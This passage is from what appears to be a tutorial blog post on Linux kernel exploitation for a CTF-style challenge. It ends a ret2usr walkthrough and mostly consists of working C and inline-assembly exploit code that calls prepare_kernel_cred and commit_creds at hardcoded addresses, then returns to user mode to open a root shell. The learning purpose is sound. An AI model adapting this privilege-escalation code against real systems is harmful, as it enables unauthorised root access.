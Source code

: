 And one more thing, on x86_64, one more instruction called `swapgs` must be called before `iretq`. The purpose of this instruction is to also swap the `GS` register between `kernel-mode` and `user-mode`. With all those information, we can finish the code to gain root privileges, then return to `user-mode`:
```C
unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
```

We can finally call those pieces that we have crafted one by one, in the correct order, to open a root shell:
```C
int main() {
    save_state();
    open_dev();
    leak();
    overflow();  
    puts("[!] Should never be reached");
    return 0;
}
```

## Conclusion
So that concludes my first post on my Linux kernel exploitation learning process. In this post, I have demonstrated the way to setup the environment for a Linux kernel pwn challenge, and also the simplest technique in kernel exploitation: `ret2usr`. 

In the next post, I will gradually increase the difficulty adding more and more mitigations, and show you the corresponding technique to bypass them.

## Appendix
The full `ret2usr` exploitation script is [ret2usr.c](ret2usr.c).
